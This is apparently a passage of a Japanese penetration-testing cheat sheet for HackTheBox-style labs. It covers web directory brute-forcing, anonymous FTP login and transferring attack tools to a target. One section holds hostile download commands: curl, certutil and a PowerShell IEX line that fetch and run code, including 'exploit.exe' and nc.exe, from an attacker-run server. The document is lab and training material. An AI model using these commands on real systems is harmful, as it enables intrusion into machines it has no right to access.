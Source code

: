 ``` bash
# gobuster 特定のディレクトリ配下をさらに調べたいときは階層を追加する
gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster.txt

# バックエンドの種類に合わせて変更する
feroxbuster -u http://targethost.htb/ -x php -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt | tee feroxbuster.txt

feroxbuster -u http://targethost.htb/  -x asp,aspx -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt | tee feroxbuster.txt

## --no-recursion
feroxbuster -u http://targethost.htb/ -x php -w /usr/share/wordlists/raft-medium-directories.txt --no-recursion | tee feroxbuster.txt

# dirb
dirb http://10.10.10.95:8080

# WebDAVの探索
/usr/bin/davtest -url http://targethost.htb/
```

### FTP接続

``` bash
# Anonymous Login
$ ftp targethost.htb
Connected to targethost.htb.
Name (targethost.htb:kali): anonymous
```

### 攻撃ファイル転送

``` bash
# HTTP/FTPサーバ起動(ホスト側)
cd ~/Hacking/Tools
python3 -m http.server 5000
python3 /home/kali/Hacking/Tools/localftp.py

# ファイルダウンロード(HTTP)
curl "http://10.10.10.7:5000/linpeas.sh" -o "linpeas.sh"
curl "http://10.10.10.7:5000/winPEASx64.exe" -o "winPEASx64.exe"
Invoke-WebRequest "http://10.10.10.7:5000/winPEASx64.exe" -OutFile "winPEASx64.exe"
IEX(New-Object Net.WebClient).downloadstring('http://10.10.10.7:5000/winPEASx64.bat')
certutil.exe -URLCache -split -f http://10.10.14.3:5000/exploit exploit.exe

# ファイルダウンロード(FTP)
# FTPでWindowsマシンにバイナリを転送する場合は、binary modeを使わないと実行できないので注意
# https://www.jscape.com/blog/ftp-binary-and-ascii-transfer-types-and-the-case-of-corrupt-files
echo open 10.10.14.3 > ftp.txt && echo user user password >> ftp.txt && echo binary >> ftp.txt && echo get nc.exe nc.exe >> ftp.txt && echo quit >> ftp.txt
ftp -n < ftp.txt

# WebDavのPUTが使える場合
curl -T test.html http://targethost.htb
```
